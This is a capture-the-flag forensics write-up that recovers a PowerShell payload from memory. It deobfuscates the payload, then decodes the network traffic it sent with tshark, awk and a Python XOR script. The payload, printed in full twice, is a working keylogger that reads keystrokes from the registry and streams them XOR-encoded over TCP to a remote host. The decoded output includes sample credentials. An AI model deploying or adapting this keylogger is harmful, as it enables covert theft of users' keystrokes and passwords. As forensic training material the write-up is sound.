


# Solve
- Find powershell payload in memory



```ps
New-PSDrive -PSProvider Registry -Name HKU -Root HKEY_USERS
``` 
- The above is used to create a registry for global users
```ps
$g = $null; $d = Get-ChildItem -Path 'HKU:' | ForEach-Object { if (Test-Path ('HKU:\' + $_.PSChildName + '\Software\GetKeypressValue')) { $_.PSChildName } }; $ipaddress = '192.168.3.133'; $port = 60457; $client = New-Object System.Net.Sockets.TcpClient($ipaddress, $port); $stream = $client.GetStream(); $a = 'WOLPHV'; $b = [System.Text.Encoding]::ASCII.GetString((1..49 | ForEach-Object { Get-Random -Minimum 0 -Maximum 256 })); $c = 0; 1..3000 | ForEach-Object { $e = Get-ItemProperty -Path ('HKU:\\' + $d + '\\Software\\GetKeypressValue') -Name KeypressValue; $f = $e.KeypressValue; if ($f -eq 'Shift + [') { $f = '{' } elseif ($f -eq 'Shift + ]') { $f = '}' }; if ($f.Length -lt 2 -and $f -ne $g) { $g = $f; $h = ''; $h += [char]($f[0] -bxor $a[$c % $a.Length]); $c++; $f = $h; Write-Output $f; $i = [System.Text.Encoding]::ASCII.GetBytes($b + $f); $stream.Write($i, 0, $i.Length) }; Start-Sleep -Milliseconds 50 }; $stream.Close(); $client.Close()
```
- Decipher payload to get something more like
```ps
$user = Get-ChildItem -Path 'HKU:' | ForEach-Object { if (Test-Path ('HKU:\' + $_.PSChildName + '\Software\GetKeypressValue')) { $_.PSChildName } }
$ipaddress = '192.168.3.133'
$port = 60457 
$client = New-Object System.Net.Sockets.TcpClient($ipaddress, $port)
$stream = $client.GetStream()
$string = 'WOLPHV'
$randomString = [System.Text.Encoding]::ASCII.GetString((1..49 | ForEach-Object { Get-Random -Minimum 0 -Maximum 256 }))
$xorIndex = 0
1..3000 | ForEach-Object {
    $itemProperty = Get-ItemProperty -Path ('HKU:\\' + $user + '\\Software\\GetKeypressValue') -Name KeypressValue
    $currentKeypressValue = $itemProperty.KeypressValue
    if ($currentKeypressValue -eq 'Shift + [') { $currentKeypressValue = '{' }
    elseif ($currentKeypressValue -eq 'Shift + ]') { $currentKeypressValue = '}' }
    if ($currentKeypressValue.Length -lt 2 -and $currentKeypressValue -ne $previousKeypressValue) {
        $previousKeypressValue = $currentKeypressValue
        $xorResult = ''
        $xorResult += [char]($currentKeypressValue[0] -bxor $string[$xorIndex % $string.Length])
        $xorIndex++
        $currentKeypressValue = $xorResult
        Write-Output $currentKeypressValue
        $data = [System.Text.Encoding]::ASCII.GetBytes($randomString + $currentKeypressValue)
        $stream.Write($data, 0, $data.Length)
    }
Start-Sleep -Milliseconds 50
}
$stream.Close()
$client.Close()
```
- Notice data is being sent to the attacker. Locate the packets in wireshark
- 
- Dump packets to get the data we want

`tshark -r network-capture.pcap -x | grep -A 1 '^0020  3f 5d 3f 25 3d 3f 3f 60 3f 3f 07 15 3f 3f 3f 3f' < out.txt`
- The above line identifies the packets of interest based on the random string prefix

`awk 'NR % 3 == 2 {print substr($0, length)}' out.txt | tr -d '\n'`
- Get the encrypted data in the form `6-/4->2##$ 3%*+?/:2a/?%30"-9$#$*>c:3 +-'-!2(!1!:y,#=87$8#",ge|;3<0,.$;ec4=} <cz{>ce2c!+c:f"za4!$:(-9?&32%''83*>9.796#>-?$#%#<39&"7<9 '-$!7:;5 !80'!k{mdt.k{mdt.`
- Use the following python script to decrypt the data
```python
WOLPHV = "WOLPHV"
input_string = "6-/4->2##$ 3%*+?/:2a/?%30\"-9$#$*>c:3 +-'-!2(!1!:y,#=87$8#\",ge|;3<0,.$;ec4=} <cz{>ce2c!+c:f\"za4!$:(-9?&32%''83*>9.796#>-?$#%#<39&\"7<9 '-$!7:;5 !80'!k{mdt.k{mdt."
str = ""
for i in range(len(input_string)):
    str += chr((ord(input_string[i]) ^ ord(WOLPHV[i % len(WOLPHV)])))
print(str)
```
- Get output `abcdehelotheregogle.comegmailuser3rewdawewegmail.compasword123wctf{ahk-5cr1pt5-4r3-d4ng3r0u5-dirmgaiwpd}iwonderifanyoneislisteningtowhatiamtypinghm;3;3;b;3;3;b `
- 
Flag: `wctf{ahk-5cr1pt5-4r3-d4ng3r0u5-dirmgaiwpd}`
